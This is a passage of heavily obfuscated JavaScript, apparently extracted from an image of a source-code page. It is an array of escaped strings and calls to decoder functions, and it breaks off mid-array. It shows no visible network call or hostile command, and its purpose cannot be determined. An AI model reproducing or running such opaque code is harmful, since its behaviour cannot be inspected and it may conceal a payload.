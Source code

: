031\u0041',scLZ44x(LaGO_Z(-0x1c)),'\x5a\x46\x37\x5d\x6f\x64\x52\x43\x52',LaGO_Z(-0x17),'\x36\x33\x4c\x5d\x26',scLZ44x(LaGO_Z(0x3b)),scLZ44x(LaGO_Z(0x3c)),LaGO_Z(-0x1b),'\x65\x2c\x34\x68\x24\x65\x37\x52\x24\x72\x70',scLZ44x(LaGO_Z(0x3d)),'\x41\x2a\x59\x68\x3b\x79\x31\x71\x53\x51\x26\x78\x78\x7b\x53','.5,n$f_prSdE,3cCXxmKaZFpx.`:c',scLZ44x(0xb3),scLZ44x(0xb4),'\u006a\u006a\u007d\u0053\u0032\u0049\u002a\u007b\u006d\u005e\u0026',scLZ44x(LaGO_Z(0x3e)),'\x64\x73\x62\x5d\x73\x63\x26\x72\x3e\x5e','\u0045\u005a\u0049\u0058\u003b\u0067\u0045\u0072',scLZ44x(0xa3),'\u0031\u003f\u0035\u004b\u0067\u0059\u006f\u0057\u0057\u0077\u0035\u0074\u0058\u003f\u0023\u0069\u0048\u003e\u002a\u005e\u0039\u0039\u003c',scLZ44x(LaGO_Z(-0x2d)),'\u0032\u002e\u0055\u0040\u0077\u0039\u002f\u0075\u0076\u0061\u0078\u0035\u0079\u003a\u002c\u0038\u005f\u0064\u005e\u0061\u0035\u006b\u0061\u0057\u002b\u0061\u0049\u0068\u0039\u0044\u0037\u0038\u0044\u0069\u004e\u005e\u004b\u0039\u0054\u004f\u0032\u0030',LaGO_Z(-0x2a),LaGO_Z(-0x1a),LaGO_Z(-0x45),'\u0062\u0024\u0079\u0040\u007e',scLZ44x(LaGO_Z(-0x19)),scLZ44x(0xb6),'D$Tz',scLZ44x(0xb7),scLZ44x(0xb8),scLZ44x(LaGO_Z(0x3f)),'\x4b\x7b\x62\x7a\x38\x35\x76\x30\x62\x7d\x6a\x67\x59\x79\x4c\x55\x76\x3e\x34\x29\x5f\x4b\x7b\x2e\x6d\x4a\x67\x6b\x53\x50\x67\x22\x2c\x3e\x5e\x56\x5b\x74\x3c\x26\x25\x77\x35\x74\x3c\x56\x54\x34\x5b\x65\x43\x4e\x42\x6e\x35\x35\x4a\x4e\x3c\x56\x41\x70\x55\x64\x5b\x65\x43\x4e\x42\x6e\x3b\x35\x44\x72\x7b\x45\x7b\x5f\x76\x7e\x5b\x65\x43\x4e\x42\x6e\x77\x63',LaGO_Z(-0x43),scLZ44x(0xba),scLZ44x(LaGO_Z(0x40)),LaGO_Z(-0x16),scLZ44x(LaGO_Z(0x41)),LaGO_Z(-0x20),'\u0058\u005a\u005b\u0057\u0057\u002b\u0042\u0054\u004c','\x49\x5b\x70\x68\x54','\u0025\u003c\u0061\u0030\u0022\u0079\u002a\u007b\u0065\u0026\u0066\u0038\u0042\u006e\u0072\u005f\u0045\u005a\u0042\u0049\u004d\u007c\u0029\u0072','\x6d\x78\x70\x25\x39\x43\x48\x75\x67\x54\x5f\x73\x59\x6f\x45\x7b\x76\x44\x54\x25\x7e','\x25\x3c\x61\x30\x22\x79\x2a\x7b\x51\x5a\x6f\x76\x65\x3f\x43\x51\x71\x4e\x29\x44\x5d\x67\x2a\x7b\x46','xx6+J_s_^w','\x6a\x6a\x7d\x53\x6f',scLZ44x(0x2d),'\u005f\u005a\u0059\u0031\u005e\u0052\u004c\u002f\u0033\u005d\u006a\u0039\u0075\u007c\u0065\u003f\u002c\u003a\u003e\u005d\u0039\u0035\u005d\u006d\u0053\u005d\u0024\u004f\u0052\u0026\u0074\u003f\u0026\u0029\u0041\u003e\u0077\u0052\u0069\u0060\u003f\u0069\u007c\u005d\u004c\u007c\u005b\u0073\u007d\u0025\u0044\u007d\u002c\u0049\u0053\u006d\u004f\u0021\u006f\u0076\u006a\u0033\u003b\u0065\u0028\u0029\u007a\u003a\u0066\u0052\u0038\u0062\u0041\u0068','\x7b\x50\x59\x31\x30\x66\x4a\x72','\x46\x3c\x36\x46\x59',scLZ44x(0x66),'\x2c\x36\x46\x61\x6c\x2b\x37\x69\x57\x77\x35\x74\x63','\u0064\u0042\u0075\u0031\u0036','\u007d\u0026\u0029\u0036\u007c\u005e\u0029\u002e\u004a\u0077\u0042\u006f\u0033\u002f\u0079',scLZ44x(LaGO_Z(0x42)),LaGO_Z(-0x21),'\x2f\x42\x3a\x77\x4e\x74\x48\x72','\u0029\u005b\u0034\u002b\u0034',scLZ44x(0xbe),LaGO_Z(-0x15),scLZ44x(LaGO_Z(0x43)),scLZ44x(0x3f),LaGO_Z(-0x18),LaGO_Z(-0x17),LaGO_Z(-0x32),'\u0025\u003c\u0022\u0053\u006f',scLZ44x(0xc0),'\x42\x60\x23\x4b\x53\x26\x4b\x7d\x38\x54\x79\x48\x77\x22\